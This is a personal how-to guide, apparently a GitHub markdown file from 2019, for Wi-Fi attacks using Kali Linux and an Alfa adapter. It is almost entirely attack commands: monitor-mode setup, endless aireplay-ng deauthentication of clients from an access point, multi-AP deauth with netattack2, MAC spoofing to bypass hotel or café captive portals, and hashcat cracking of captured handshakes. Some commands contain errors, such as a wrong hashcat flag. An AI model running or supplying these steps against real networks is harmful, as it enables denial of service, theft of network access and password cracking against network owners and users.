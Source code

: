 ```yaml
---
title: Deauth Wifi Guide 11/19/2019
---
```


Setup
=====

First make sure that you have the alfa card with you and you have the correct
drivers installed (I am using alfa AWUS036ACH and kali linux 2019.3)

apt-get update

apt install realtek-rtl88xxau-dkms

Then reboot and plug in to usb

Ifconfig

Check if it is plugged in and working. SHould be wlan0 if on vm or wlan1 if on
laptop

Now set it up into monitor mode

ifconfig wlan1 down

airmon-ng check kill

(it seems you only have to do this if using wlan0) check
https://forums.kali.org/showthread.php?27091-Solve-arimon-ng-issues-by-a-simple-modfication-of-NetworkManager-conf

iwconfig wlan1 mode monitor

ifconfig wlan1 up

Now check if it is in monitor mode

airodump-ng wlan1

Check if it supports injection

aireplay-ng -9 wlan1

Actual deauth (Single AP)
=========================

1.  Put wifi card or adapter into monitor mode

ifconfig wlan1 down

airmon-ng check kill

iwconfig wlan1 mode monitor

ifconfig wlan1 up

1.  Use airodump to capture packets

airodump-ng wlan1mon

1.  Capture packets from specific bssid (wifi to deauth) and a specific channel

airodump-ng --bssid (insert bssid) -c (insert channel) -w (filename to save as)
wlan1

1.  Use aireplay-ng to send the deauth packets

Aireplay-ng -0(deauth) 0(forever) -a (mac address/bssid of the access point) -c
(mac address of the client to deauth, if you leave blank then all clients are
deauthed) wlan1mon

Deauth multiple APs (NetAttack2)
================================

<https://github.com/chrizator/netattack2.git>

cd netattack2

python netattack2.py

Restart wifi stuff
==================

Ifconfig wlan1 down

Iwconfig wlan1 mode managed

Ifconfig wlan1 up

NetworkManager restart

Then unplug and plug back in wifi adapter

MAC ADDRESS CHANGER FOR CAPTIVE PORTALS
=======================================

airodump-ng -c (channel or use bssid) -a (for only connected devices to list)
--encrypt OPN wlan1

ifconfig wlan1 down

macchanger -m (Mac address to spoof) wlan1

ifconfig wlan1 up

<https://null-byte.wonderhowto.com/how-to/hack-open-hotel-airplane-coffee-shop-wi-fi-with-mac-address-spoofing-0183387/>

CRACK CAP FILE PASSWORD
=======================

cap2hccapx file.cap (file/destination).hccapx

hashcat -o 2500 (filename like cracked) (file/destination of hccapx) (wordlist)
